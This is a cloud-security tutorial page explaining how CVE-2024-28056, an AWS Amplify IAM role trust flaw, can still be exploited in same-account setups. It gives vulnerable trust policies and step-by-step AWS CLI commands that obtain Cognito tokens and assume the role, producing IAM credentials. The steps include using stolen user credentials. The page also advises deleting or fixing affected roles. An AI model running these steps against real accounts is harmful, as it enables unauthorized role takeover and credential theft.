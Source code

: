 ```yaml
---
author_name: Nick Frichette
title: "CVE-2024-28056: Exploit an AWS Amplify Vulnerability in Same-Account Scenarios"
description: An in-depth explanation of how to still abuse CVE-2024-28056, a vulnerability in AWS Amplify that exposed IAM roles to takeover.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/">Amplified exposure: How AWS flaws made Amplify IAM roles vulnerable to takeover</a> by <a href="https://x.com/Frichette_n">Nick Frichette</a></p>
    <p><img src="/images/researchers/nick_frichette.jpg" alt="Nick Frichette" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    [AWS Security Bulletin: CVE-2024-28056](https://aws.amazon.com/security/security-bulletins/AWS-2024-003/)
</div>

## Background

In April of 2024, Security Researchers at [Datadog](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/) found a vulnerability in the [AWS Amplify](https://aws.amazon.com/amplify/) service that exposed IAM roles associated with the service to takeover. In particular, under two different scenarios the Amplify service was setting the role trust policies of certain roles to improperly limit which [Cognito identity pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-identity.html) could assume them. As a result, anyone could create their own identity pool (or find one on the internet) and use it to assume these vulnerable roles.

In response to this, AWS made a number of changes to IAM and the [AWS Security Token Service](https://docs.aws.amazon.com/STS/latest/APIReference/welcome.html) (STS) APIs. In particular, this involved:

* Releasing a fix to the [Amplify CLI](https://github.com/aws-amplify/amplify-cli/releases/tag/v12.10.1) and Amplify Studio preventing the creation of more vulnerable roles.
* Made changes to the IAM control plane to prevent anyone from creating role trust policies vulnerable to this misconfiguration. If you try to set a vulnerable policy today it will be rejected.
* Made changes to the STS service to **block cross-account role assumption of roles that have a vulnerable trust relationship with the Amazon Cognito service**.

This final fix is interestingly specific. AWS only made changes to block **cross-account** role assumption, not **same-account** role assumption. As a result of this, we can still potentially take advantage of roles that were made vulnerable by the Amplify service. This requires an identity pool to be configured in the victim account with the [basic (classic) authflow](https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html) enabled.

!!! Warning
    **To be clear, this method is more difficult and requires the existence of at least one additional misconfigured resource**, however it is worthwhile to know about if you are a Penetration Tester or Red Teamer, or you simply use Amplify in your own organization.

!!! Note
    This is not realistically something that can be "fixed". AWS was able to block cross-account role assumption because it was a sufficiently rare occurrence. By comparison, same-account role assumption using Cognito is (as of today) the only method available. If you have IAM roles in your account which are vulnerable to this exposure it is recommended to delete them, or change their trust policy in addition to relying on the fixes that AWS provided.

## Unauthenticated Example

![Unauthenticated Scenario](../../../images/aws/exploitation/exploit_amplify_vulnerability_in_same_account_scenario/unauth_same_account_scenario.png)

In this scenario, there exists a vulnerable role in the account, alongside an identity pool that has the basic authflow enabled. This role's trust policy does not require authentication to assume. Here is an example of a vulnerable trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity"
        }
    ]
}
```

!!! Note
    There is another variant of this misconfiguration where the trust policy includes a condition for `cognito-identity.amazonaws.com:amr` that is set to `unauthenticated`.

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. Using the AWS CLI, perform the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id>`
    * This can typically be found in the client side JavaScript of the web application using this identity pool.
2. Using the `IdentityId` from step one, perform the following command: `aws cognito-identity get-open-id-token --identity-id <identity id from step 1>`
    * This will return a JWT we can use to authenticate to the vulnerable role. You can inspect this JWT if you so choose.
3. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 2>`
    * The vulnerable role ARN will need to be [brute-forced](../../enumeration/enum_iam_user_role.md), [derived from other values](../../enumeration/enumerate_principal_arn_from_unique_id.md), found in [source control](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/#results-finding-misconfigured-roles-in-the-wild), or a variety of other means.

By following these steps you should successfully generate IAM credentials for the vulnerable role:

```json
{
    "Credentials": {
        "AccessKeyId": "ASIA123ABC456DEF789G",
        "SecretAccessKey": "123ABC456DEF789G123ABC456DEF789GHI012JKL",
        "SessionToken": "...snip...",
        "Expiration": "2024-07-31T20:02:33+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:00000000-1111-2222-3333-444444444444",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA123ABC456DEF789G:hijacked_role",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vulnerable-amplify-role/hijacked_role"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:aaaaaaaa-1111-bbbb-2222-cccccccccccc"
}
```

## Authenticated Example

In an authenticated scenario, the identity pool in the victim account must be configured to support authentication with a [Cognito user pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-identity-pools.html). An example vulnerable role trust policy can be found below:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated"
                }
            }
        }
    ]
}
```

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. First, find credentials for a user account in the pool. If you cannot steal or create credentials you cannot continue.
2. Authenticate to the user pool using [cognito-idp:InitiateAuth](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/initiate-auth.html). The specific command you will need to use will differ depending on the type of authentication in place. Please refer to the documentation for more information. Here we will demonstrate using `USER_PASSWORD_AUTH`.
    * Run the following command: `aws cognito-idp initiate-auth --auth-flow USER_PASSWORD_AUTH --client-id <client id of the victim user pool> --auth-parameters USERNAME=<username>,PASSWORD=<password>`
    * This will return an `IdToken` that will be used in the next step.
    * Note: The `AccessToken` is **NOT** the same as the `IdToken`. 
3. Run the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id> --logins '{"cognito-idp.<region>.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * This will return an `IdentityId` that will be used in the next step.
4. Run the following command: `aws cognito-identity get-open-id-token --identity-id <IdToken from step 3> --logins '{"cognito-idp.us-east-1.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * Note: You **MUST** include the `logins` parameter, it is not optional.
    * This will return a JWT we will use in the next step.
5. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 4>`

By following these steps you should successfully generate IAM credentials for the vulnerable role.
